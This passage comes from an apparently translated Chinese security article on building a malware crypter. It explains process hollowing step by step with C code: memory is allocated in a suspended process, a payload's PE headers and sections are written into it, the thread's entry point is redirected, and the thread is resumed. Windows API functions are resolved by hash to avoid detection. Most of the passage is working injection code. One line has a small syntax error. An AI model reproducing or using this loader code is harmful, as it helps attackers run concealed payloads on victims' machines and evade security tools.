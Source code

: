 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0108f9254e1b5bedee.png)

现在，我们可以解析载荷的PE文件，将其写入进程的内存空间中。首先，在ImageBase地址处分配大小为SizeOfImage的一段空间，然后使用**WriteProcessMemory**将相关字节写入虚拟地址空间中。



```
// allocate virtual space for process
pfnVirtualAllocEx fnVirtualAllocEx = (pfnVirtualAllocEx)GetKernel32Function(0xE62E824D);
LPVOID lpAddress = fnVirtualAllocEx(pi.hProcess, (LPVOID)pinh-&gt;OptionalHeader.ImageBase, inh-&gt;OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// write headers into memory
pfnWriteProcessMemory fnWriteProcessMemory = (pfnWriteProcessMemory)GetKernel32Function0x4F58972E);
fnWriteProcessMemory(pi.hProcess, (LPVOID)pinh-&gt;OptionalHeader.ImageBase, lpPayload, inh-&gt;OptionalHeader.SizeOfHeaders, NULL);
// write each section into memory
for (int i = 0; i &lt; pinh-&gt;FileHeader.NumberOfSections; i++) `{`
// calculate section header of each section
PIMAGE_SECTION_HEADER pish = (PIMAGE_SECTION_HEADER)((DWORD)lpPayload + pidh-&gt;e_lfanew + sizeof(IMAGE_NT_HEADERS) + sizeof(IMAGE_SECTION_HEADER) * i);
// write section data into memory
fnWriteProcessMemory(pi.hProcess, (LPVOID)(pinh-&gt;OptionalHeader.ImageBase + pish-&gt;VirtualAddress), (LPVOID)((DWORD)lpPayload + pish-&gt;PointerToRawData), pish-&gt;SizeOfRawData, NULL);
`}`
```

[![](https://p3.ssl.qhimg.com/t01101f2981837aec48.png)](https://p3.ssl.qhimg.com/t01101f2981837aec48.png)

在恢复进程之前，我们需要修改线程的上下文，以便将指令指针（instruction pointer）的起始位置设置为AddressOfEntryPoint。这个步骤完成后，我们就可以安全启动载荷进程。



```
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
pfnGetThreadContext fnGetThreadContext = (pfnGetThreadContext)GetKernel32Function(0x649EB9C1);
fnGetThreadContext(pi.hThread, &amp;ctx);
// set starting address at virtual address: address of entry point
ctx.Eax = pinh-&gt;OptionalHeader.ImageBase + pinh-&gt;OptionalHeader.AddressOfEntryPoint;
pfnSetThreadContext fnSetThreadContext = (pfnSetThreadContext)GetKernel32Function(0x5688CBD8);
fnSetThreadContext(pi.hThread, &amp;ctx);
// resume our suspended processes
pfnResumeThread fnResumeThread = (pfnResumeThread)GetKernel32Function(0x3872BEB9);
fnResumeThread(pi.hThread);
```

最后，我们需要执行原始程序，这一步非常简单：



```
void(*oep)() = (void *)0x69696969;
oep();
```

